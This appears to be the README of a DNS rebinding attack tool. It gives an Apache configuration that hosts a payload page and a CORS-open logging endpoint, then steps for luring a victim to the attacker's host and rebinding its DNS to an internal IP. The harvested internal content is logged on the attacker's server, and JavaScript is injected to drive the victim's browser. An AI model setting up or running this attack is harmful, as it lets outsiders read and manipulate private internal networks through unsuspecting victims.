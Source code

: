 # DNS Rebinding

## Installation
- Make sure that logcat.mysite.xyz points to `logcat.py` python file
- logcat.mysite.xyz must be enabled for CORS
- rebind.mysite.xyz points to payload.html

A dummy apache config is given below
```
<Directory /home/ubuntu/mysite/dns-rebind/>
Options +ExecCGI
AddHandler cgi-script .py
</Directory>

<VirtualHost *:80>
ServerName logcat.mysite.xyz
DocumentRoot /home/ubuntu/mysite/dns-rebind/
Header always set Access-Control-Allow-Origin "*"
DirectoryIndex logcat.py
</VirtualHost>

<VirtualHost *:80>
ServerName rebind.mysite.xyz
ServerAlias rebind2.mysite.xyz
DocumentRoot /home/ubuntu/mysite/dns-rebind/
DirectoryIndex payload.html
</VirtualHost>
```

## Steps to reproduce
Send victim to the hosted server address, here rebind.mysite.xyz    
Goto DNS Settings and point rebind.mysite.xyz to internal IP, say 192.168.1.1
`watch ls -lt logcat.log`    
You will soon start getting files in logcat.log directory, that is the content of internal IP.    
After you start getting files, edit `logcat.py` and use the `inject` var to inject JS    
You can inject builtin `navigate(_url_, _method_, _data_)` to navigate to different page.    
run `bash uniq_files logcat.log` to get all the uniquely fetched files    
In the end, make sure to clean the logcat.log directory using `rm -f logcat.log/*` to save disk space.
